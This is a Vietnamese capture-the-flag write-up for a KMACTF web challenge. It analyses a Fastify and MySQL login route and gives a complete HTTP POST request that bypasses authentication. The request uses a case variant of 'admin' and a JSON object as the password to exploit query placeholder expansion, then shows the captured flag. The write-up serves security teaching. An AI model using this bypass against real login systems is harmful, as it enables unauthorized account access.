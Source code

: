 # Web - Vào đây!

# 1. Phân tích:

Link: http://103.163.25.143:20110/

![src.png](images/src.png)

Đây là một ví dụ về một ứng dụng web sử dụng framework Fastify và sử dụng `MySQL` để làm cơ sở dữ liệu. Đây là một ứng dụng đơn giản cho phép người dùng đăng nhập, đăng ký và truy xuất các tệp tin trên server.

Ứng dụng Fastify được khởi tạo và định nghĩa một số route như sau:

Route `/login` xử lý phương thức `POST` và kiểm tra thông tin đăng nhập. Nếu người dùng là 'admin', không có kiểm tra và kết quả trả về. Ngược lại, một truy vấn được thực thi để kiểm tra tên người dùng và mật khẩu trong cơ sở dữ liệu và kết quả được trả về.

Route `/register` xử lý phương thức `POST` và thực hiện việc đăng ký người dùng mới. Một truy vấn được thực thi để chèn thông tin người dùng vào cơ sở dữ liệu và kết quả được trả về.

Route `/` xử lý phương thức `GET` và trả về nội dung của tệp tin hiện tại (__filename).

# 2. Khai thác:

```
app.post('/login', async req => {
  if (req.body.user === 'admin') return;
  const [rows] = await dbPromisePool.query(`select *, bio as flag from users where username = ? and password = ? limit 1`, [req.body.user, req.body.pass])
  return rows[0]
})
```

Đoạn mã này kiểm tra tên người dùng và mật khẩu gửi từ phía client. Nếu tên người dùng là `admin`, không cần kiểm tra mật khẩu và không có thông tin người dùng được trả về. Trong trường hợp khác, nó sẽ thực hiện một truy vấn SQL để tìm kiếm người dùng trong cơ sở dữ liệu và trả về thông tin của người dùng nếu tìm thấy, ở đây chính là flag

Tìm kiếm với từ khóa `bypass sqli where username = ? and password = ?` ta có:

![bypass.png](images/bypass.png)

- Mã khai thác:

```
POST /login HTTP/1.1

Host: 103.163.25.143:20110

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Content-Type: application/json; charset=utf-8

Accept-Language: en-US,en;q=0.9

Connection: close

Content-Length: 50



{

	"user": "Admin",

	"pass":{"password": 1}

}
```

Phần `JSON` ta gửi lên sever ở `request body` của yêu cầu HTTP POST. Trong một yêu cầu HTTP, phần `request body` chứa dữ liệu được gửi lên sever. Ở đây ta gửi lên dưới dạng `JSON` nên mình cần `Content-Type: application/json; charset=utf-8`

Do trong source code sẽ kiểm tra user với các ký tự `admin` nên thay vì sử dụng tài khoản `admin` thì mình dùng `Admin` (được hint)

```
req.body.user === 'admin'
```

Và sử dụng format `"password":{"password": 1}` từ link `Login Bypass` khi nãy và sửa thành `"pass":{"password": 1}` do sever có các cột `user` và `pass` để lấy username và password 

```
[req.body.user, req.body.pass]
``` 

![burp.png](images/burp.png)


```
Flag: KMACTF{SQLInjection_That_La_Don_Gian}
```



